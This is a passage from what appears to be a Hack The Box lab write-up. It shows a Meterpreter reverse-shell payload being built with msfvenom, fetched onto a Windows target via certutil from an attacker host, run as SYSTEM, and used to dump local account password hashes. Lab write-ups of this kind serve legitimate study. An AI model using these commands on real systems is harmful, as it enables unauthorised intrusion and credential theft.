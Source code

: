 I also lose my shell after a few seconds because the process doesn't respond to the service manager so it gets terminated.

I'm going to drop a Meterpreter payload on the box, run it as SYSTEM and quickly migrate to a new process so I don't lose the shell:

```
# msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o met.exe LHOST=10.10.16.9 LPORT=4444

C:\Windows\System32\spool\drivers\color>certutil -urlcache -f http://10.10.16.9/met.exe met.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

![](/assets/images/htb-writeup-re/msf.png)


Got a stable shell now, let's dump the hashes first:

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:caf97bbc4c410103485a3cf950496493:::
cam:1002:aad3b435b51404eeaad3b435b51404ee:1916525df2db99ef56a75152807da93d:::
coby:1000:aad3b435b51404eeaad3b435b51404ee:fa88e03e41fdf7b707979c50d57c06cf:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
john:1003:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
luke:1001:aad3b435b51404eeaad3b435b51404ee:3670611a3c1a68757854520547ab5f24:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:275fb2a3ea8b2433976482b69b94497b:::
```
